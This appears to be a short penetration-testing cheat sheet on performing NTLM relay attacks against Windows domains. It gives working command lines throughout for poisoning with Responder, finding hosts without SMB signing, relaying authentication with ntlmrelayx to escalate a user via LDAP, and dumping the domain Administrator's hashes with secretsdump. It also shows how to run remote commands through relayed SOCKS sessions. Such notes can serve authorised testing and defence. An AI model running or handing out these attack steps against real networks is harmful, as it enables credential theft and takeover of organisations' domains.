 # How To NTLMRelay

## Notes
 - Configure /etc/proxychains.conf to not proxy DNS and use local port 1080:
   `#proxy_dns`
   `socks4 127.0.0.1 1080`   
 - Start ntlmrelayx with options socks:   
   `ntlmrelayx.py -tf targets.txt -smb2support -socks`  
 - Targets (systems without SMB signing) can be gathered with:   
   `crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt`   
 - Try to escalate a given user:   
   `ntlmrelayx.py -t ldap://dc.domain.local --escalate-user USER --remove-mic -smb2support`   
 - Run secretsdump on domain administrator:   
   `secretsdump.py winlab.csnc.ch/hostname$@dc.winlab.csnc.ch -just-dc -just-dc-user Administrator`   
   
 Note: For the poisoning, run Responder at the same time, but with SMB and HTTP server disabled for Responder:   
 - Start Responder.py with SMB and HTTP disabled: (disable them in /root/vkoch/Responder/Responder.conf)   
   `sudo /opt/Responder/Responder.py -I eth1 -w -r -f -d`   

## Using the socks connection
 - Once there is an authenticated socks connection (check with command "socks" in ntlmrelayx console), it can be used with proxychains:   
   `proxychains smbexec.py 'DOMAIN/user:gugus@<target-ip>'`   
   `proxychains secretsdump.py random@100.2.2.2`   
   
- If you relay a machine account:   
   `proxychains smbexec.py 'DOMAIN/MACHINE$:gugus@<target-ip>'`   
